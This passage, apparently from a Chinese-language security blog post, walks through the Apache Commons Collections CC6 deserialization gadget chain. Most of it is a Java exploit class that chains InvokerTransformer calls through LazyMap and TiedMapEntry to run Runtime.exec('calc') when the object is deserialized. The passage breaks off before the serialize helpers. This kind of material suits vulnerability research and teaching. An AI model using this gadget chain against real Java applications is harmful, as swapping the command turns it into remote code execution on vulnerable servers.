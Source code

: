 [![](assets/1701612311-2fcec137cc279603ff890c511cbdf4a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235231-1c44e3ca-20cc-1.png)

所以我们就可以在put完以后将这个key：aaa删除，让他反序列化的时候还能够进入if语句：

```plain
LazyMap.remove("aaa");
```

### EXP(CC6TiedMapEntry)：

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6Test {
    public static void main(String[] args) throws Exception{


        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,new ConstantTransformer(1));



        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        HashMap<Object,Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry,"bbb");
        Lazymap.remove("aaa");

        Class c = LazyMap.class;
        Field factoryFied = c.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,chainedTransformer);

        serialize(map2);
        unserialize("ser.bin");
    }


```